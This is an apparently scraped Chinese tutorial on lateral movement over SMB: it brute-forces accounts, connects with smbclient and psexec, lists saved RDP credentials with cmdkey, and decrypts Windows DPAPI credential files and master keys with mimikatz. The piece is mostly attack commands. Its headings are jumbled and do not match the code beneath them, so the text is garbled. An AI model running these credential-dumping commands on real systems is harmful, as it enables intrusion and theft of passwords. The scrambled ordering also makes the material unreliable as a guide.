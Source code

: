**1.psexec.exe**  

```
yum -y install samba-client/apt-get install samba-client
```

通过得到的账号密码信息链接跳板机，通过 smb 爆破得到账号密码，如果目标没有开启 3389/23 服务无法直接登录，借助 psexec.exe 工具通过 smb 服务调用目标 cmd  

```
smbclient -L 192.168.1.8 -U administrator 
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEjRC4XL8DiaAx3u71HhSac9qt4BfE6gTFYGD4PcV63TT3AjjWuZ4LSww/640?wx_fmt=png)  

**2.incognito.exe 提权**  

```
smbclient //192.168.1.8/tools -U administrator
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEo0DHRM8gP2iaCDNia9PtuJT2AwZJmAA187icryyqBzibEt7zPQmj2icLwCA/640?wx_fmt=png)

```
#查看rdp连接历史记录
cmdkey /list
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEGbdCPOouLS48ibwGJ32YuCeWhBeBIVz6qkOIrib11I629KAFicWBFU4mw/640?wx_fmt=png)  

```
dir /a %userprofile%\\AppData\\Local\\Microsoft\\Credentials\\\*
```

**Linux 下通过 smbclient 访问 windows 共享目录**  
1\. 安装 smbclient  

```
C:\*\*加粗样式\*\*\\Users\\admin\\AppData\\Local\\Microsoft\\Credentials\\1F914B4D8F36DFD93C3A37B7D5491363
```

2\. 查看共享  

```
mimikatz 
dpapi::cred /in:C:\\Users\\MIN\\AppData\\Local\\Microsoft\\Credentials\\1F914B4D8F36DFD93C3A37B7D5491363
```

 ![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEOXEHxjWRL2m90Sn1K1gUlZDHKcs3iaromLJfibxYQNFicG1gUw5hgq0kQ/640?wx_fmt=png)

3.smb 连接

```
mimikatz.exe ""privilege::debug"" ""sekurlsa::dpapi full"" exit >> c:\\log.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNYtWNe7uCic0ibxsGLtMEUOGEtylHBAMOviciaUq24SUTlCMSKKm65DpuxmMicHfbiaRslCGbl3WMo7xVeA/640?wx_fmt=png)

执行 smbclient 命令成功后，进入 smbclient 环境，出现提示符：smb:/>  这里命令和 ftp 命令相似，如 cd 、lcd、get、megt、put、mput 等。通过这些命令，我们可以访问远程主机的共享资源
